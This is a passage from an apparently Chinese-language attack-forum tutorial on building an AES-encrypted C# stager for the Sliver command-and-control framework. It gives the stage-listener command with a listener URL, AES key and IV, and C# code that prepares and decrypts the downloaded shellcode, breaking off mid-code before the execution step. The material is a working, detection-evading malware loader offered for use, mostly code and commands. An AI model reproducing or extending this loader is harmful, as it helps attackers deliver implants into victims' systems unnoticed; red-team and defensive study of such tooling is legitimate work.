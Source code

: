 一、C# Stager - AES 加密
--------------------

基于之前的 C# Stager ，添加了 AES 加解密模块。  
参考 - <https://github.com/BishopFox/sliver/wiki/Stagers#encrypted-stage-example>

### 创建 Stage Listener

在 Sliver 自带的分阶段监听器（Stage Listener）中默认提供了 AES 加密的参数选项，AES 加密参数选项如下：

```shell
Usage:
======
  stage-listener [flags]
Flags:
======
  --aes-encrypt-iv  string    encrypt stage with AES encryption iv
  --aes-encrypt-key string    encrypt stage with AES encryption key
```

这里假定密钥和偏移值分别为 `D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT` 和 `8y/B?E(G+KbPeShV`  
创建带有AES加密功能的分阶段执行器：

```shell
stage-listener --url http://172.16.181.182:80 --profile win64_stage --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

![p9BHnh9.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-a4ea8f83f36a2557e1f9bcfff5836db741a3d7d8.png)

### 创建 C# Stager - AES

基于前文编写的 C# Stager 代码，添加 AES 解密模块及一些细节处理点。

首先是格式处理部分：将一个字节数组 `shellcode` 中从下标为 16 开始的所有元素添加到一个 `List<byte>` 类型的列表 `l` 中，然后将 `l` 转换为字节数组并赋值给 `ciphertext` 变量。

```CS
    List<byte> l = new List<byte> { };
    for (int i = 16; i <= shellcode.Length - 1; i++)
    {
        l.Add(shellcode[i]);
    }
    byte[] ciphertext = l.ToArray();
```

接着就是解密部分：使用 `Aes.Create()` 创建一个 AES 算法实例。将 `key` 和 `IV` 分别赋值给 `aesAlg` 的 `Key` 和 `IV` 属性，并设置 `PaddingMode` 为 `PaddingMode.None`，表示不使用任何填充模式。接着使用 `aesAlg` 中的 `CreateDecryptor()` 方法创建一个解密器对象 `decryptor`，用于对加密数据进行解密操作。  
然后创建 `MemoryStream` 对象 `memoryStream` 用于存储解密后的数据以及使用 `CryptoStream` 对象 `cryptoStream` ，用于将流与加密转换器关联起来，对数据进行解密操作，通过`cryptoStream.Write` 方法将解密后的数据保存至 `memoryStream` 中。

```CS
    byte[] key = Encoding.UTF8.GetBytes(AESKey);
    byte[] IV = Encoding.UTF8.GetBytes(AESIV);

    using (Aes aesAlg = Aes.Create())
    {
        aesAlg.Key = key;
        aesAlg.IV = IV;
        aesAlg.Padding = PaddingMode.None;

        ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);
        using (MemoryStream memoryStream = new MemoryStream(ciphertext))
        {
            using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
            {
                cryptoStream.Write(ciphertext, 0, ciphertext.Length);
```
